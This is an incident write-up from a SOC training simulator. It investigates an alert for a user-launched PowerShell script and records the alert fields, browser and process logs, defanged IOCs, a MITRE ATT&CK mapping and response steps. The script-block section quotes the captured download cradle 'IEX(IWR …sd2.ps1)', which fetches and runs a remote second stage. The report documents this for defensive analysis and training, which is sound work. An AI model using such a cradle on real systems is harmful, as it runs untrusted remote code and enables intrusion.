





# [SOC153 · EventID 238] Suspicious PowerShell script executed

LetsDefend (SOC simulator) · Alert: 14 Mar 2024 · Investigated: May 2026 · Level: Security Analyst

**Verdict: True Positive** · Final severity: **High** (alert: Medium) · Escalated to Tier 2

## 1. Alert



| Field | Value |
|---|---|
| Rule | SOC153 - Suspicious Powershell Script Executed |
| Event time | 14 Mar 2024, 05:23 PM |
| Host / IP | Tony / 172.16.17.206 |
| File | `C:\Users\LetsDefend\Downloads\payload_1.ps1` |
| SHA-256 | `db8be06ba6d2d3595dd0c86654a48cfc4c0c5408fdd3f4e1eaf342ac7a2479d0` |
| AV/EDR action | **Detected** (not blocked) |

## 2. Hypothesis

A user downloaded a PowerShell script from the internet and ran it. If it is malicious, expect: a download from an external URL shortly before the alert, `powershell.exe` making outbound connections, and possibly a second-stage download.

## 3. Investigation

**Browser history:** the last URL before the alert is the script itself, `hxxps://files-ld.s3.us-east-2.amazonaws[.]com/payload_1.ps1` at 17:22:25, after a series of Windows news sites.



**Endpoint process data (raw log):** `powershell.exe` (`C:\Windows\System32\WindowsPowerShell\v1.0\`), parent `explorer.exe`, status `SUCCESS`: the user launched it interactively.



**Script block logging:** the script spawns a download cradle that fetches and executes a second stage in memory:

```text
"C:\Windows\system32\cmd.exe" /c "powershell -command IEX(IWR -UseBasicParsing 'hxxps://kionagranada[.]com/upload/sd2.ps1')"
```



**Network:** outbound HTTPS (443) from `powershell.exe` to `161.22.46.148`, connection successful.

**Threat intelligence:**
- URL: **12/93** vendors on VirusTotal flag it as malicious; crowdsourced context links the domain to **SilentBuilder**, a dropper/downloader used by a Conti subgroup.
- File hash: no public matches on VirusTotal, Cisco Talos or MalwareBazaar at the time of analysis.



**Persistence:** no registry run keys or scheduled tasks associated with the incident were found.

## 4. Findings and verdict

**True Positive.** A user-executed script downloaded a second stage with `IEX(IWR …)` and opened an outbound HTTPS connection. The EDR only *detected* it, so execution was not prevented.

| Time (14 Mar 2024) | Event |
|---|---|
| 17:22:25 | Browser downloads `payload_1.ps1` from S3 |
| ~17:23 | `explorer.exe` → `powershell.exe` runs the script |
| ~17:23 | `cmd.exe /c powershell IEX(IWR …sd2.ps1)`: second-stage download |
| ~17:23 | Outbound HTTPS from `powershell.exe` to 161.22.46.148 |
| 17:23 | SOC153 alert fires (EDR: Detected) |

## 5. IOCs

Defanged. Source in brackets.

| Type | Value | Source |
|---|---|---|
| SHA-256 | `db8be06ba6d2d3595dd0c86654a48cfc4c0c5408fdd3f4e1eaf342ac7a2479d0` | Alert |
| File | `payload_1.ps1` | Alert |
| URL | `hxxps://files-ld.s3.us-east-2.amazonaws[.]com/payload_1.ps1` | Browser history |
| URL | `hxxps://kionagranada[.]com/upload/sd2.ps1` | Script block |
| IP | `161.22.46.148` | Network log |

## 6. MITRE ATT&CK

| Tactic | Technique | Evidence |
|---|---|---|
| Execution | T1204.002 User Execution: Malicious File | Parent `explorer.exe`: user launched the downloaded script |
| Execution | T1059.001 Command and Scripting Interpreter: PowerShell | `powershell.exe` runs `payload_1.ps1` and `IEX` |
| Execution | T1059.003 Command and Scripting Interpreter: Windows Command Shell | `cmd.exe /c powershell …` |
| Command and Control | T1105 Ingress Tool Transfer | `IWR` downloads `sd2.ps1` |
| Command and Control | T1071.001 Application Layer Protocol: Web Protocols | HTTPS C2/download traffic |

## 7. Response and recommendations

1. **Containment:** host *Tony* isolated from the network.
2. **Eradication:** could not confirm the full behavior of the script without a sandbox; escalated to Tier 2 for forensic analysis of the endpoint.
3. **Recommendations:**
   - Block both URLs/domains and the IP at the proxy/firewall; hunt for them across all endpoints.
   - Hunt for `IEX` + `IWR`/`DownloadString` in PowerShell script block logs (Event ID 4104).
   - Switch the EDR policy for this rule from *detect* to *block*.
   - Enforce Constrained Language Mode / AppLocker for scripts launched from user `Downloads`.

## 8. What I learned

- **Detected ≠ blocked.** Always read the EDR action field: here the payload ran.
- Script block logs show what a script *does*; process logs alone showed only "PowerShell ran". The second-stage URL was only visible there.
- A hosting provider (S3) in the URL does not make it trustworthy: attackers use legitimate cloud storage to evade domain reputation checks.
- MITRE tactics and techniques are different layers: *Ingress Tool Transfer* is a technique under the *Command and Control* tactic, not a tactic itself.
